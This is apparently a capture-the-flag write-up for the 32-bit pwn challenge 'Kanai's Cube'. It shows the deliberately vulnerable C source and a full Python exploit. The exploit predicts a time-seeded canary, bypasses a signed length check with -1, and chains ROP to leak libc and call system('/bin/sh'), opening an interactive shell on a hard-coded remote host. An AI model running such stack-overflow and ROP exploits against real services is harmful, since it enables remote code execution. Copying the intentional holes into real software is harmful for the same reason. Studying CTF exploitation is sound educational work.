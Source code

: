 ## [Pwn] Kanai's Cube (250)

**kanais_cube.cpp**
```c
// Mitigation : ASLR, NX
// compile : gcc -fno-stack-protector -mpreferred-stack-boundary=2 -o Kanais_Cube Kanais_Cube.c -m32

#include <stdio.h>
#include <string.h>
#include <string.h>
#include <stdlib.h>
#include <time.h>

int gl_canary = 0;

int main(int argc, char *argv[])
{
	setvbuf(stdout, 0, 2, 0);
	srand(time(NULL));
	int canary;
	canary = rand();
	gl_canary = canary;
	unsigned short num = 0;
	char vuln[120];
	puts("Input the number of string you want to write!");
	scanf("%hd", &num);
	if((signed short)num > 120) {
		puts("Toooooooo Long!");
		exit(0);
	}
	printf("Input your string! max length : %d\n", (signed short)num);
	fflush(NULL);
	read(0, vuln, (unsigned)num);
	if(canary != gl_canary) {
		puts("[*] Do not Hack me :(");
		exit(0);
	}
	puts(vuln);
	return 0;
}
```

Simple ROP Challenge.  
It use Custom Canary made up of random integer using **time(NULL)** to protect BOF.  
It also check the length if the **length** excessed 120 before input.  

We can bypass the custom canary by setting arguments of **srand** same as challenge's.  
Next, we can also bypass the length check because **scanf** is using "%hd".  
"%hd" is a 2-byte **signed** integer type formatstring.  
So we can simply bypass it by inputting **"-1"**.  

After then, it's just simple ROP Challenge.  
But you can only leak the library in the first attempt, so you should call the **main** function again, and then exploit.

Exploit code is as follows.
```python
from hackutil import *
import ctypes
import struct
from time import *
from socket import *
from telnetlib import *

printf_plt = 0x08048440
read_got = 0x0804A00C
offset_read_system = 0x9e8b0
offset_read_binsh = 0xf7ee9bf0 - 0xf7f6f803
main = 0x080485DD

#============================

HOST = '45.32.38.83'
PORT = 25552

#============================

libc = ctypes.cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6') # Linux env
libc.srand(libc.time(0))

sock = socket(AF_INET, SOCK_STREAM)
sock.connect((HOST, PORT))

print sock.recv(1024)
sock.send('-1\n')

print sock.recv(1024)

canary = libc.rand()
print "[*] Canary : "+str(hex(canary))

sock.send('A'*124+p32(canary)+"BBBB"+p32(printf_plt)+p32(main)+p32(read_got))

sock.recv(1024)
data = sock.recv(1024)
print hexdump(data)

read_lib = up32(data[:4])[0]
system_lib = read_lib - offset_read_system
binsh_lib = read_lib - offset_read_binsh

print "[*] Find read_lib : " + str(hex(read_lib))
print "[*] Find system_lib : " + str(hex(system_lib))
print "[*] Find /bin/sh : " + str(hex(binsh_lib))

####################[ STEP 2 ]###################

libc.srand(libc.time(0))

sock.send('-1\n')

print sock.recv(1024)

canary = libc.rand()
print "[*] Canary : "+str(hex(canary))

sock.send('A'*122+p32(canary)+"B"*12+p32(system_lib)+"AAAA"+p32(binsh_lib))

t = Telnet()
t.sock = sock
t.interact()
```
